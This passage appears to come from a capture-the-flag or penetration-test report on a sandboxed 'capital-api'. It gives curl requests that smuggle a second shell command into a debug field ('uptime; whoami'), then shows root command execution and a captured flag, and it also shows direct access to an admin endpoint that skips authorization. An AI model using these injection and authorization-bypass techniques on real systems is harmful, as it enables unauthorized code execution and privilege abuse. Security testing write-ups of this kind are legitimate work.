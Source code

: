 **Exploitation Steps:**

1. **Send debug command with injection payload:**
    
    ```bash
    curl -X POST "<http://capital-api.sandbox.local:8000/api/debug>" \\
      -H "Authorization: Token [JWT_TOKEN]" \\
      -H "Content-Type: application/json" \\
      -d '{
        "body": {
          "command": "uptime; whoami"
        }
      }'
    
    ```
    
2. **Receive system command execution results:**
    
    ```json
    {
      "stdout": " 19:37:08 up 19 days,  8:49,  0 users,  load average: 6.76, 6.15, 6.12\\nroot\\n",
      "flag": "flag{1nject10n_Ap1}",
      "description": "Attackers will feed the API with malicious data..."
    }
    
    ```
    

**Proof of Impact:**

- Successfully executed system commands: `uptime` and `whoami`
- Confirmed execution as root user: `root`
- Bypassed command whitelist using semicolon injection
- Captured CTF flag: `flag{1nject10n_Ap1}` (Injection API vulnerability)
- Demonstrated critical remote code execution capability

### AUTHZ-VULN-09: Admin Workflow Bypass (High Impact)

**Summary:**

- **Vulnerable location:** GET /api/admin (workflow context)
- **Overview:** Users can access admin functions without proper role transition workflow
- **Impact:** Bypassing intended admin privilege verification workflow
- **Severity:** High

**Prerequisites:**

- Valid authentication token

**Exploitation Steps:**

1. **Directly access admin endpoint without role verification workflow:**
    
    ```bash
    curl "<http://capital-api.sandbox.local:8000/api/admin>" \\
      -H "Authorization: Token [JWT_TOKEN]"
    
    ```
    